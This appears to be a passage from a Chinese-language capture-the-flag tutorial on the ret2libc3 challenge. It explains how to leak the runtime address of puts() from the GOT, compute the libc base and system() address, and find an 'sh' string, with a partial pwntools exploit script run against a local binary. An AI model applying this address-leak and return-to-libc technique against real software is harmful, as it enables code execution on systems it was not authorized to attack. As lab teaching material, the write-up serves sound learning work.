 puts()和system()之间的地址距离是不发生变化的，是libc下的可执行文件这一个整体全放入虚拟内存中

所以如果我们知道puts()的**真实地址**和在**libc中的地址**的话，就可以通过system()在libc中的地址推知system()的真实地址了

(这也就算是**地址泄露**的入门)

先运行一下程序，测试一下

[![](assets/1701612384-cb92851804bd191c50b9feb59eb93ab2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204420-ab03880c-167a-1.png)

这里我们不能直接输入地址，是因为strtol()函数，我们需要输入字符串

可以得到puts()的真实地址(不能直接利用plt中的puts()，是因为开启了ASLR，本地与远程的地址是有偏差的)

先构造system

(这一道题题目给出的libc打不通本地，我用的我本地的libc)

[![](assets/1701612384-4a79581b5f81c0fd1b0f82a07974dac5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204423-acf13e34-167a-1.png)

```plain
from pwn import *

io = process("./ret2libc3")
elf = ELF("./ret2libc3")
libc = ELF("/usr/lib/i386-linux-gnu/libc.so.6")
io.sendlineafter(b' :',str(elf.got['puts']))
io.recvuntil(b" : ")
LibcBase=int(io.recvuntil(b'\n',drop=True),16) - libc.symbols['puts']
system_addr=LibcBase + libc.symbols['system']
```

[![](assets/1701612384-076d4286c6e11e95657013bb340d608b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204428-af70c9ae-167a-1.png)  
对于后门参数，可以借助elf.search进行搜索有sh的字符串，之后利用00截断

从而获得后门参数'sh'
